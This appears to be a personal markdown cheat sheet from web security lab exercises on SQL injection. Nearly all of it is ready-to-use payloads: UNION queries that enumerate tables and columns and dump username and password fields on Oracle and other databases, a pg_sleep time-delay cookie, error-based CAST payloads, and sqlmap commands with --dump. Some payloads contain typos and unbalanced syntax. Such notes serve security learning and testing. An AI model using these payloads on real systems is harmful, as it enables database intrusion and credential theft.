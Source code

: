 ### 1. SQL Injection UNION attack, determining the no of column

- __normal get request__
  - __`GET /filter?catergory=Gifts`__

- __check whether sql injection present or not__
  - __`GET /filter?catergory=Gifts'`__

- __Use UNION__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+NULL--`__
  - __If still is show the same error that means there is more than one column__
  - __Try to add more NULL__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+NULL,NULL,NULL--`__



### 2. SQL Injection UNION attak, finding a column containing text

- __normal get request__
  - __`GET /filter?catergory=Pets`__


- __check whether sql injection present or not__
  - __`GET /filter?catergory=Pets'`__


- __Use UNION__
  - __`GET /filter?catergory=Pets'+UNION+SELECT+NULL--`__
  - __If still is show the same error that means there is more than one column__
  - __Try to add more NULL__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+NULL,NULL,NULL--`__

- __Now you found there are three column__
  - __so now you need to find which of the column have string__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+'admin',NULL,NULL--`__
  - __If you are getting error then the column is not a string then go and test for the remaining colums__
  - > __Note: what string you are replacing by NULL the string definetly should be present in the column__


### 3. SQL Injection UNION Attack, retrieving multiple values in a single column

- __normal get request__
  - __`GET /filter?catergory=Pets`__


- __check whether sql injection present or not__
  - __`GET /filter?catergory=Pets'UNION+SELECT+NULL,NULL,username||'~'||password+FROM+users--`__




## 5. non-Oracle databases

- __'+UNION+SELECT+NULL,NULL--__

- __Checking if any of them holds string data__
  - __`'+UNION+SELECT+'abc','def'--`__
  - __If the abc and def reflect in the page means the two columns hold string__


- __Getting the table name__
  - __`'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--`__

- __Extracting the column names from a table(users_kwechv)__
  - __`'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_kwechv'--`__


- __Extracting the data from the two columns (1.username_ygmrlj, 2.password_jiuphc) from table(users_kwechv)__
  - __`'+UNION+SELECT+username_ygmrlj,+password_jiuphc+FROM+users_kwechv--`__



## 6. Oracle databases

- __`'+UNION+SELECT+NULL,NULL--`__

- __Checking if any of them holds string data__
  - __`'+UNION+SELECT+'abc','def'+FROM+dual--`__
  - __If the abc and def reflect in the page means the two columns hold string__


- __Getting the table name__
  - __`'+UNION+SELECT+table_name,NULL+FROM+all_tables--`__

- __Extracting the column names from a table(USERS_RDINGX)__
  - __`'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_RDINGX'--`__


- __Extracting the data from the two columns (1.username_ygmrlj, 2.password_jiuphc) from table(USERS_RDINGX)__
  - __`'+UNION+SELECT+username_ygmrlj,+password_jiuphc+FROM+USERS_RDINGX--`__

## Blind SQL injection with time delays

- __`cookie: TrackingId=x'||pg_sleep(10);`__

# SQLmap

- __`sqlmap -u '<url>' --cookie='Trackingid=<id_value>; session=<value>' --level2`__
  - __if you dont the database name just run the above commands__

- __`sqlmap -u '<url>' --cookie='Trackingid=<id_value>; session=<value>' --level2 --dbms=postgreSQL --dump --threads=5`__

## Visible error based SQL Injection

- __`Cookie: TrackinId=' AND 1=CAST((SELECT username from users) LIMIT 1) AS int)--;`__
- __`Cookie: TrackinId=' AND 1=CAST((SELECT password from users) LIMIT 1) AS int)--;`__


## Bypass XML encoding

![image1](/Image/sqlinjection1.png)

![image2](/Image/sqlinjection2.png)

![image3](/Image/sqlinjection3.png)



#  Types of database

- __1. Oracle__
- __2. Microsft__
- __3. PostgreSQL__
- __4. MySQL__


### Database comments
- __1. Oracle      | `--comment`__
- __2. Microsft    | `--comment or /*comment*/`__
- __3. PostgreSQL  | `--comment or /*comment*/`__
- __4. MySQL       | `#comment or -- comment or /*comment*/`__


### Database version
- __1. Oracle      | `SELECT banner FROM v$version or SELECT version FROM v$instance`__
- __2. Microsft    | `SELECT @@version`__
- __3. PostgreSQL  | `SELECT version()`__
- __4. MySQL       | `SELECT @@version`__














